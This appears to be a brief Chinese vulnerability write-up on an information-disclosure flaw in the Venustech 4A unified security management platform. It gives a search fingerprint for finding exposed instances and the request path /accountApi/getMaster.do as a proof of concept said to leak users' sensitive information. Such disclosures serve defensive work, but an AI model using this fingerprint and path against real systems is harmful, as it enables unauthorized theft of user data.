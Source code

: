# 

# 启明星辰 4A统一安全管控平台 getMaster.do 信息泄漏漏洞

## 漏洞描述

启明星辰 4A统一安全管控平台 getMaster.do 接口存在信息泄漏漏洞，通过发送特定请求包可以获取用户敏感信息

## 漏洞影响

启明星辰 4A统一安全管控平台

## 网络测绘

web.body="cas/css/ace-part2.min.css"

## 漏洞复现

登陆页面

![image-20230828144032254](images/image-20230828144032254.png)

验证POC

```
/accountApi/getMaster.do
```

![image-20230828144049975](images/image-20230828144049975.png)
